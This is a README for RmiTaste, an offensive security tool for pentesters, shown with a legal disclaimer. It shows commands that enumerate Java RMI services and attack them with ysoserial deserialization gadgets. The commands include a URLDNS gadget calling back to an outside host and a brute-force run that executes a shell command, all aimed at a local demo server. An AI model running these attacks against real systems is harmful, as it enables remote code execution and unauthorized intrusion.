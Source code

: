 <p align="center">
  <img src="assets/rmitastepsd_white.png" width=200 height=300>
</p>

#
![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
# RmiTaste
 RmiTaste allows security professionals to detect, enumerate, interact and attack RMI services by calling remote methods with gadgets from ysoserial. It also allows to call remote method with specific parameters.
 
### Disclaimer
 RmiTaste was written to aid security professionals in identifying insecure RMI services on systems which the user has prior permission to attack. Unauthorised access to computer systems is illegal and RmiTaste must be used in accordance with all relevant laws. Failure to do so could lead to you being prosecuted. The developers of RmiTaste assume no liability and are not responsible for any misuse or damage caused by this program.

## Building and Running
 1. Download ysoserial-master-SNAPSHOT.jar and save it in libs_attack directory (https://github.com/frohoff/ysoserial).
 2. Build project using maven:
    ```bash
    mvn package
    ```
 3. Run command:
    ```bash
    java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
    
    
     __________        ._____________                __
     \______   \ _____ |__\__    ___/____    _______/  |_  ____
     |       _//     \|  | |    |  \__  \  /  ___/\   __\/ __ \
     |    |   \  Y Y  \  | |    |   / __ \_\___ \  |  | \  ___/
     |____|_  /__|_|  /__| |____|  (____  /____  > |__|  \___  >
           \/      \/                  \/     \/            \/
     @author Marcin Ogorzelski (mzero - @_mzer0) STM Solutions
    
    Warning: RmiTaste was written to aid security professionals in identifying the
             insecure use of RMI services on systems which the user has prior
             permission to attack. RmiTaste must be used in accordance with all
             relevant laws. Failure to do so could lead to your prosecution.
             The developers assume no liability and are not responsible for any
             misuse or damage caused by this program.
    
    ```
  
## Usage

RmiTaste has 4 modes: conn, enum, attack and call. Each mode has a separate help.
```bash
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
(...)
Usage: <main class> [-h] [COMMAND]
  -h, --help   display this help message
Commands:
  conn    check connection to host
  enum    enumerate RMI service
  attack  attack RMI registry methods
  call    call specific method on RMI remote object
```
### conn mode
Conn mode allows to check if port is RMI service port.
```bash
# Check if 127.0.0.1:1099 is RMI Service
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste conn -t 127.0.0.1 -p 1099
```
### enum mode
Enum mode allows to fetch information about RMI service such as: remote objects names and classes names that remote object implements or extends. If interface implemented by remote object is available in RmiTaste classpath then RmiTaste will print all remote methods that you can call on this remote object.
```bash
# RMI service enumeration
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
```
### attack mode
Attack mode allows to call remote method with specific gadget chain from ysoserial. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call all remote methods with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -g "URLDNS" -c "http://rce.mzero.pl"
```

```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -g "URLDNS" -c "http://rce.mzero.pl"
```


Option "-gen bruteforce" allows to brute force remote method with gadgets from ysoserial. In this example deposit method will be called multiple times with gadgets from ysoserial.
```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with gadgets from ysoserial and command ping 127.0.0.1
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -gen bruteforce -c "ping 127.0.0.1"
```
### call mode
Call mode allows to call specific method on RMI remote object. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.getBalance method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:getBalance"
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.setPin("1234") method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:setPin" -mp "string=1234"
```

### Examples
Demo server is available <a href="https://github.com/STMSolutions/RmiServerExample">here</a>.

 1. Run demo server.
  
 2. Enumerate target.
  
  ```bash
  root@keyisinyourmind:/media/sf_pentest2/Tools/python/Toolset/Others/RmiTasteTool# java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!
  ```
 As you can see, RmiTaste needs interface of remote object. During pentests you will have to find this interface. In this example, just copy rmitaste.examples-1.0-SNAPSHOT-all.jar to libs_attack directory.
 Enumerate target again:
  ```bash
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

  ```

## Author
Twitter: <a href="https://twitter.com/_mzer0">@_mzer0</a>